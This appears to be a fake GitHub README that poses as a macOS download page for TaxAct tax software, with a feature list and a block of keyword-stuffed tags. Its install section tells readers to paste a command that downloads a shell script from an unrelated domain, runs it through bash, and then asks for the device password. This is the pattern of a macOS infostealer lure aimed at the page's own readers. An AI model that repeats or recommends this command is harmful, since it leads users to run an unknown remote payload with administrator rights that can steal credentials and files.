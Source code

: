 # 🧾 TaxAct — Reliable Tax Filing Software for macOS

TaxAct is a user-friendly tax preparation application designed specifically for macOS users. It simplifies filing federal and state taxes with clear guidance, making it ideal for individuals, professionals, and small business owners.

## ✅ Download TaxAct for macOS  
[![Download TaxAct](https://img.shields.io/badge/Download-TaxAct-blueviolet)](https://taxact-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is TaxAct?

TaxAct is a comprehensive tax software that helps macOS users prepare and file their taxes efficiently. With step-by-step assistance, automatic calculations, and up-to-date tax forms, TaxAct makes tax filing accurate and stress-free.

---

## ✨ Features

- 📑 Prepare and file federal and state tax returns  
- 📝 Step-by-step guided tax preparation  
- 💡 Maximize deductions and credits  
- 🖥️ Fully optimized for macOS with Retina display  
- 🔒 Secure data encryption and privacy protection  
- 📊 Real-time error checks and tax calculations  
- 📲 Access from Mac, iPhone, or iPad  

---

## 💡 Why Use TaxAct?

- ✅ Trusted by millions of users nationwide  
- 🧠 Intuitive interface for easy navigation  
- 💵 Helps maximize your tax refund  
- 🔄 Sync and save your progress across devices  
- 🕒 Saves time with automated data entry  

---

[![Download TaxAct](https://img.shields.io/badge/Download-TaxAct-blueviolet)](https://taxact-mac-download.github.io/.github)

---

## 🖼️ Preview

![TaxAct Screenshot 1](https://www.zdnet.com/a/img/resize/dde7faeab64a1b93556323c68d392ac51a18c1ff/2022/01/05/16e32ba2-6d83-40f0-8399-324e0bc749db/screen-shot-2022-01-03-at-10-50-23-am.jpg?auto=webp&width=1280)  
![TaxAct Screenshot 2](https://www.form8949.com/images/tax-act-enter-totals.png)

---

## 📌 Tags

taxact, taxact free, taxact free file, taxact professional, taxact business,  
www taxact, 80g of income tax act, taxact cost, taxactcom, taxact business taxes,  
taxact coupon, taxact prices, taxact free tax filing, canadian income tax act,  
professional tax act, 80c of income tax act, 10 10d income tax act, 10 13a of income tax act,  
10 14 i of income tax act, 10aa of income tax act, 111a income tax act, 112a of income tax act,  
115ad of income tax act, 115ba of income tax act, 115baa of income tax act, 115bab of income tax act,  
115bac of income tax act, 115jd of income tax act, 139 1 of income tax act, 139 4 of income tax act
